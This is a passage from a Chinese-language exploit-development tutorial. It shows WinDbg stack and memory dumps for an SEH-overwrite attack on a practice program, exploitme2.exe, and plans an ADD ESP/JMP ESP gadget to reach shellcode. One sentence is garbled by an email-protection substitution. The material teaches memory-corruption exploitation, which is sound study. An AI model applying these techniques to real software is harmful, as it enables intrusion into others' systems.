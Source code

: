 因为`0x62626262=”bbbb”`.这确实是我们想要的。现在我们知道在文件中放入我们想要的地址在哪里了，我们需要判断使用的是哪个地址。在WinDbg中点击View→Memory  并在”Virtual:”下输入 @esp 来观察由ESP指向的栈部分，`ESP=0x2af490`，同时，我们的”b”字符在@esp+6d4上。

让我们重启exploitme2.exe来观察6d4是否是一个常数。在Memory 窗口中的”Virtual:”下再次进入@esp[[email protected]](http://drops.com:8000/cdn-cgi/l/email-protection)我们也可以观察到ESP总是不同的，即使偏移6d4并不改变。

因此，在4个”b”字符之后，我们可以将我们的shellcode放置在正确的位置，并且用如下一段代码中的地址替换那些”b”字符:

```
ADD   ESP, 6d8
JMP   ESP

```

注意我们已经使用了6d8，即6d4+4来跳过”b”字符并转移到我们将放置在替代”c”字符的shellcode上。当然，`ADD ESP, 6e0`或类似的代码也将会被执行。不幸的是，找到这类代码并不容易，但这是一种更简单的方法。

重启exploitme2.exe，第二次按下F5并观察栈：

```
0:000> dd esp
002df45c  77c2b499 002df544 002dfb2c 002df594
002df46c  002df518 002dfa84 77c2b4ad 002dfb2c
002df47c  002df52c 77c2b46b 002df544 002dfb2c
002df48c  002df594 002df518 62626262 00000000
002df49c  002df544 002dfb2c 77c2b40e 002df544
002df4ac  002dfb2c 002df594 002df518 62626262
002df4bc  002e1000 002df544 00636948 00000000
002df4cc  00000000 00000000 00000000 00000000

```

在esp+8上的dword值看起来挺有趣的。 如果我们观察那个地址我们可以了解到如下内容：

```
0:000> db poi(esp+8)
002dfb2c  61 61 61 61 62 62 62 62-63 63 63 63 63 63 63 63  aaaabbbbcccccccc
002dfb3c  63 63 63 63 63 63 63 63-63 63 63 63 63 63 63 63  cccccccccccccccc
002dfb4c  63 63 63 63 63 63 63 63-63 63 63 63 63 63 63 63  cccccccccccccccc
002dfb5c  63 63 63 63 63 63 63 63-63 63 63 63 63 63 63 63  cccccccccccccccc
002dfb6c  63 63 63 63 63 63 63 63-63 63 63 63 63 63 63 63  cccccccccccccccc
002dfb7c  63 63 63 63 63 63 63 63-63 63 63 63 63 63 63 63  cccccccccccccccc
002dfb8c  63 63 63 63 63 63 63 63-63 63 63 63 63 63 63 63  cccccccccccccccc
002dfb9c  63 63 63 63 63 63 63 63-63 63 63 63 63 63 63 63  cccccccccccccccc

```

0x2dfb2c指向处理”b”字符的4个”a”字符。要记住的是”bbbb”覆写SEH节点的”handler”域，因此,0x2dfb2c必须指向相同SEH节点的“下一个SEH 节点”域。我们来检验该过程：

```
0:000> !exchain
002df470: ntdll!ExecuteHandler2+3a (77c2b4ad)
002dfa84: MSVCR120!_ValidateRead+439 (6d52a0d5)
002dfb2c: 62626262
Invalid exception stack at 61616161

```
